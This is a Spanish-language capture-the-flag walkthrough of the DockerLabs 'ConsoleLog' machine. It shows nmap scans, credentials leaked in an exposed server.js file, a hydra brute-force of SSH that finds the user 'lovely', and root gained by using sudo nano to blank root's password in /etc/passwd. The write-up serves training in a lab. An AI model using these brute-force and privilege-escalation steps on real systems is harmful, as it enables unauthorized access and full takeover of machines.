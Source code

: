 #MAQUINA #DOCKERLABS #FACIL
<hr>

# RECONOCIMIENTO

Vamos a resolver **ConsoleLog** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-26 10:43 CET
Initiating ARP Ping Scan at 10:43
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 10:43, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 10:43
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 5000/tcp on 172.17.0.2
Discovered open port 3000/tcp on 172.17.0.2
Completed SYN Stealth Scan at 10:43, 0.49s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-11-26 10:43:04 CET for 0s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON
80/tcp   open  http    syn-ack ttl 64
3000/tcp open  ppp     syn-ack ttl 64
5000/tcp open  upnp    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.66 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y los puertos **3000 y 5000** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-26 10:44 CET
Nmap scan report for 172.17.0.2
Host is up (0.000022s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.61 ((Debian))
|_http-title: Mi Sitio
|_http-server-header: Apache/2.4.61 (Debian)
3000/tcp open  http    Node.js Express framework
|_http-title: Error
5000/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 f8:37:10:7e:16:a2:27:b8:3a:6e:2c:16:35:7d:14:fe (ECDSA)
|_  256 cd:11:10:64:60:e8:bf:d9:a4:f4:8e:ae:3b:d8:e1:8d (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.43 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-26 10:45 CET
Nmap scan report for 172.17.0.2
Host is up (0.0000030s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
| http-enum: 
|_  /backend/: Potentially interesting directory w/ listing on 'apache/2.4.61 (debian)'
3000/tcp open  ppp
5000/tcp open  upnp
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds

```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:** En el puerto **3000** corre un servicio **http**, en el puerto **5000** un servicio **ssh**. En el puerto **80** tenemos un directorio llamado **backend**.

## HTTP (80)

Al revisar la web que hay en el puerto 80, vemos que dentro de **backend** hay un archivo **server.js** que tiene lo siguiente:

   ```bash

const express = require('express');
const app = express();

const port = 3000;

app.use(express.json());

app.post('/recurso/', (req, res) => {
    const token = req.body.token;
    if (token === 'tokentraviesito') {
        res.send('lapassworddebackupmaschingonadetodas');
    } else {
        res.status(401).send('Unauthorized');
    }
});

app.listen(port, '0.0.0.0', () => {
    console.log(`Backend listening at http://consolelog.lab:${port}`);
});

```

Posible usuario y contraseña -> **tokentraviesito** y **lapassworddebackupmaschingonadetodas**

# EXPLOTACION

Tras probar a acceder con esas credenciales en el puerto 5000 vía ssh, vemos que no es posible.

Usamos **hydra** para intentar sacar un usuario que reutilice posiblemente la contraseña:

   ```bash
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p lapassworddebackupmaschingonadetodas ssh://172.17.0.2:5000 -t 64  
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-26 11:17:49
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 8295455 login tries (l:8295455/p:1), ~129617 tries per task
[DATA] attacking ssh://172.17.0.2:5000/
[STATUS] 416.00 tries/min, 416 tries in 00:01h, 8295085 to do in 332:21h, 18 active
[STATUS] 342.00 tries/min, 1026 tries in 00:03h, 8294481 to do in 404:13h, 12 active
[5000][ssh] host: 172.17.0.2   login: lovely   password: lapassworddebackupmaschingonadetodas

```
**usuario : lovely**
**contraseña: lapassworddebackupmaschingonadetodas**

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
lovely@37820b32df01:~$ sudo -l
Matching Defaults entries for lovely on 37820b32df01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User lovely may run the following commands on 37820b32df01:
    (ALL) NOPASSWD: /usr/bin/nano

```

Vemos **nano** con permisos SUDO :
   ```bash
Modificar la linea de root en el /etc/passwd para quue al hacer su no pida contra:
root::0:0:root:/root:/bin/bash

lovely@37820b32df01:~$ sudo nano /etc/passwd
lovely@37820b32df01:~$ su
root@37820b32df01:/home/lovely# whoami
root
root@37820b32df01:/home/lovely#

```

**YA ESTAMOS COMO ROOT.**